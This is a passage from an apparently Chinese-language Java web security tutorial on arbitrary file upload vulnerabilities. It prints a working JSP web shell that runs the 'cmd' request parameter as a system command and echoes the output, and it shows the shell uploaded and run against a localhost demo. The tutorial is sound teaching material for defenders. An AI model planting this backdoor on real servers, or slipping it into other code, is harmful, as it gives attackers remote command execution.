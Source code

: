 ```jsp
        文件: <input id="file" name="file" type="file"/>
    </p>
    <input name="submit" type="submit" value="Submit"/>
</form>
</body>
</html>
<%
    }
%>
```

**示例 - 本地命令执行后门代码：**

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

因为Web应用未检测用户上传的文件合法性导致了任意文件上传漏洞，访问示例中的文件上传地址：[http://localhost:8000/modules/servlet/fileupload/file-upload.jsp](http://localhost:8000/modules/servlet/fileupload/file-upload.jsp)，并选择一个恶意的jsp后门(示例上传的是一个本地命令执行的后门):

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200921003740246.png)

后门成功的写入到了网站目录：

![image-20200921003719254](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200921003719254.png)

访问命令执行后门测试：[http://localhost:8000/uploads/cmd.jsp?cmd=ls](http://localhost:8000/uploads/cmd.jsp?cmd=ls)，如下图：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200921003841786.png)

## 2. Servlet 3.0 内置文件上传解析

Servlet3.0 新增了对文件上传请求解析的支持，`javax.servlet.http.HttpServletRequest#getParts`，使用`request.getParts();`即可获取文件上传包解析后的结果，从此不再需要使用第三方jar来处理文件上传请求了。
